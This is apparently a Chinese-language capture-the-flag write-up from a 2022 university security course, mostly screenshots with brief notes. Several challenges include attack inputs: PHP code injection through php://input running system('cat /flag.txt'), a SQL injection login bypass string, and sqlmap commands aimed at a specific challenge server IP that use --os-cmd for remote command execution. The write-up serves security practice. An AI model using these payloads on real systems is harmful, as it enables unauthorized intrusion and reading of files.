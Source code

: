 ```yaml
---
title: 22年网安小学期-CTF
---
```

# 木册木兰

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656402244227-1535d8a9-9932-489c-af63-b357e1b72be7.png)

- 下载附件，然后根据提示可以看出就是栅栏密码，所以直接解密得到

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656402270709-22a55c9b-fd6e-4cef-b874-ef8a6146eb6b.png)

# inputer

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656402323639-3d802464-d117-4c8b-99b0-2b5c96c80556.png)

- 先源码，这里要用到php://伪协议
- 直接抓包然后改包，构造 `php://input`，利用 `system("ls");`输出当前目录下所包含的文件，发包后发现可利用

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656403524194-775abc02-cd99-402a-8efb-b0be856fd9e6.png)

- 那就直接用命令 `<?php system("cat /flag.txt");?>`获得flag

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656403931462-65c99e45-585b-4da9-aa67-ebbf7b040faf.png)

# WEB_blind_exec

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656418501152-cffd8b07-e4b3-4c7d-88e9-2af93a200893.png)

# LFI

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656425908372-f0b23cde-7697-4219-a001-09d5cd26f703.png)

# baby_sql

```
admin' or '1'='1
```

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656463477302-afa6aabf-6cba-40da-a6ab-9c6d651c78ce.png)

# WEB_randnum

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656463743749-0e0e3ae5-1757-4c23-a7d3-04eef75b7ca4.png)

# WEB_babyphp

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656463757900-66e0ad0f-8176-46e7-aade-bff9d0305c50.png)

# easy_getshell

- [pbot复现](https://www.anquanke.com/post/id/212603?from=groupmessage#h2-6)

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656489800858-4a805906-bd00-402f-b3cb-b4cba8d14c15.png)

# sessionlfi

- 源码中发现页面传参使用get方法，猜测存在sql注入漏洞

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656507098348-a7fb1359-f1d6-48d8-9fae-9f5423965b72.png)

> 测试payload：
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 -dbs
>
> 爆破数据库，共有4个数据库

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656507233920-96f5d286-73db-44df-adf0-8dabadee487b.png)

> 使用sqlmap的-os-cmd远程执行命令，看到根目录有flag字样文件
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 --os-cmd="ls /"

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656507912473-95a1f3c3-29cc-4020-9ed2-c6b1d782801b.png)

> 最后继续使用远程命令查看得到flag
>
> sqlmap -u http://218.94.60.213:13198/table.php?id=1 --os-cmd="cat /flag_asflkhasklfhaklshfkjlashfjkas"

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656507964485-4c6551f9-be4e-48c3-bc18-37a4f769352b.png)

# happy

- 题目：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656578511408-899d4caa-da5f-4f4d-b926-301072c6807c.png)

- 解题代码：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660034476965-e38a5350-cba4-4601-b203-f106b0ffc8f4.png)

# rsarsa

- 题目：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1656578279183-f84801df-8c4f-4b41-9c7f-6d23eced6b56.png)

- 解题代码：

![img](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/1660034540344-f99ee9de-c416-4530-8855-8f30f950ea9f.png)
